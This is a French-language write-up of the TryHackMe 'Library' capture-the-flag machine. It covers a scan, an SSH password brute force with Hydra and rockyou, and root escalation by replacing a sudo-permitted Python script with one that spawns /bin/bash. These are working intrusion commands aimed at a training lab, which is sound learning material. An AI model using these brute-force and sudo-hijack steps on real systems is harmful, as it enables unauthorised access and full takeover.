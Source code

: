 ```yaml
---
title: Library (Guatemala CTF)
tags: [TryHackMe, Facile, Linux, Force brute]
style: border
color: thm
comments: false
description: L'art de réécrire un script à son avantage
modified: 06/09/2024
---
```


## Sommaire <!-- omit in toc -->

* [1. Reconnaissance](#1-reconnaissance)
* [2. Exploration du site](#2-exploration-du-site)
* [3. Trouver un mot de passe](#3-trouver-un-mot-de-passe)
* [4. Élévation de privilèges](#4-élévation-de-privilèges)

## 1. Reconnaissance

```bash
nmap -T4 -A 10.10.121.39
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-03 14:41 CEST
Nmap scan report for 10.10.121.39
Host is up (0.030s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:2f:c3:47:67:06:32:04:ef:92:91:8e:05:87:d5:dc (RSA)
|   256 68:92:13:ec:94:79:dc:bb:77:02:da:99:bf:b6:9d:b0 (ECDSA)
|_  256 43:e8:24:fc:d8:b8:d3:aa:c2:48:08:97:51:dc:5b:7d (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-robots.txt: 1 disallowed entry
|_/
|_http-title: Welcome to  Blog - Library Machine
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.56 seconds
```

Le scan {% include dictionary.html word="NMAP" %} met en évidence la présence d'un serveur {% include dictionary.html word="SSH" %} sur le port 22, et d'un serveur Apache sur le port 80. Ce service dispose d'un fichier `robots.txt` qui permet d'empêcher aux moteurs de recherche de référencer les pages indiquées dans ce fichier.

## 2. Exploration du site

Nous commençons par vérifier le contenu du fichier `robots.txt` mis en avant par le scan précédent :

```bash
curl 'http://10.10.121.39/robots.txt'
User-agent: rockyou
Disallow: /
```

Le `User-agent` indique le nom d'une liste de mots de passe nommée *rockyou*. Cette liste est souvent utilisée pour trouver des mots de passe "faible" dans des outils de force brute comme *<abbr title="Logiciel de craquage de mot de passe">John The Ripper</abbr>*, *{% include dictionary.html word="Hashcat" %}* ou encore *{% include dictionary.html word="Hydra" %}*.

{% include elements/figure.html image="/images/THM/20240903/VirtualBox_Kali Hack_03_09_2024_14_53_15.png" caption="Première connexion" %}

Le site héberge un blog, dont l'auteur s'appelle "meliodas". Nous utiliserons cet identifiant pour tenter de trouver un mot de passe valide pour une connexion SSH grâce à l'outil *{% include dictionary.html word="Hydra" %}*.

## 3. Trouver un mot de passe

L'outil *{% include dictionary.html word="Hydra" %}* nous permet bien de trouver le mot de passe de l'utilisateur "meliodas"

```bash
hydra -l 'meliodas' -P /usr/share/wordlists/rockyou.txt 10.10.121.39 ssh
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-09-03 15:03:12
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.121.39:22/
[STATUS] 146.00 tries/min, 146 tries in 00:01h, 14344256 to do in 1637:29h, 13 active
[22][ssh] host: 10.10.121.39   login: meliodas   password: i[...expurgé...]1
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-09-03 15:05:30
```

Grâce à ces identifiants, nous pouvons accéder au serveur et récupérer le 1er flag.

```bash
ssh meliodas@10.10.121.39

cat user.txt
6d488c[...expurgé...]35f4ec
```

## 4. Élévation de privilèges

L'utilisateur meliodas est habilité à utiliser la commande {% include dictionary.html word="sudo" %} sans mot de passe pour lancer un script Python :

```bash
sudo -l
Matching Defaults entries for meliodas on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User meliodas may run the following commands on ubuntu:
    (ALL) NOPASSWD: /usr/bin/python* /home/meliodas/bak.py
```

Le script en question appartient à root, et meliodas n'a que la possibilité de le lire. Nous ne pourrons pas modifier ce script pour obtenir un *{% include dictionary.html word="reverse-shell" %}*.

```bash
ls -hAl bak.py
-rw-r--r-- 1 root root 353 Aug 23  2019 bak.py
```

Le script semble permettre de faire une sauvegarde du contenu du site vers une archive `website.zip`

```python
#!/usr/bin/env python
import os
import zipfile

def zipdir(path, ziph):
    for root, dirs, files in os.walk(path):
        for file in files:
            ziph.write(os.path.join(root, file))

if __name__ == '__main__':
    zipf = zipfile.ZipFile('/var/backups/website.zip', 'w', zipfile.ZIP_DEFLATED)
    zipdir('/var/www/html', zipf)
    zipf.close()
```

Nous pouvons néanmoins supprimer puis recréer le fichier `bak.py` afin d'obtenir un shell root. Pour ce faire, nous utiliserons la commande proposée par [GTFOBins](https://gtfobins.github.io/gtfobins/python/#shell) en l'adaptant à nos besoins :

```bash
rm -f bak.py

echo "import os
> os.system('/bin/bash')" > bak.py

sudo /usr/bin/python3 ~/bak.py

id
uid=0(root) gid=0(root) groups=0(root)
```

Maintenant que nous avons accès au compte root, nous pouvons lire le dernier flag.

```bash
cat /root/root.txt
e8c8c6[...expurgé...]88c617
```
